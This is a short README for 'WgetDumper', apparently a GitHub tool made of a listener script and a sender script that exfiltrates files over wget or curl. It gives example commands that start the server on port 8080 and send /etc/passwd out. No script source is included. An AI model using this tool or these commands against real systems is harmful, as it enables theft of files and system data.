 # WgetDumper
### Features

- Data exfiltration using wget command.
- You can also replace the wget to curl.

![](https://i.imgur.com/lF57ji6.jpg)




**How it works?**
The tool has 2 python scripts, a server side and client side. You need to start the server and use the sender to exfiltrate the data and send, you can exfiltrate a lot of kinds of files. Contribute, we need to implement more functions to turns it a incredible project.

*Note: The next version needs to handle lines with a wide range.*

**Server**
`$ python DumpServer.py 8080  `

**Sender**
`$ python WgetSender.py "/etc/passwd" `


### Running 
![](https://i.imgur.com/CnKEmHQ.gif)

